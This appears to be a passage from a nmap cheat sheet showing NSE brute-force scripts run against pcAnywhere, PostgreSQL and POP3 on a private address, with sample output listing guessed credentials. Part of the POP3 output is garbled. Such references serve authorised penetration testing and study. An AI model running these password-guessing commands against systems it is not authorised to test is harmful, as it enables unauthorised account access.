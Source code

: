 ```sh 
nmap --script=pcanywhere-brute 192.168.1.12
```

     |5631/tcp open  pcanywheredata syn-ack
     | pcanywhere-brute:
     |   Accounts
     |     administrator:administrator - Valid credentials
     |   Statistics
     |_    Performed 2 guesses in 55 seconds, average tps: 0




### PostgreSQL - Brute-Force               

_Performs password guessing against PostgreSQL_
     
```sh 
nmap -p 5432 --script pgsql-brute 192.168.1.12
```

     |5432/tcp open  pgsql
     | pgsql-brute:
     |   root:<empty> => Valid credentials
     |_  test:test => Valid credentials




### POP3 - Brute-Force   

_Tries to log into a POP3 account by guessing usernames and passwords_
     
```sh 
nmap -sV --script=pop3-brute 192.168.1.12
```

     |PORT    STATE SERVICE
     |110/tcp open  pop3
     | pop3-brute-     |PORTed:
     | Accounts:
     |  user:pass => Login correct
     | Statistics:
     |_ Performed 8 scans in 1 seconds, average tps: 8
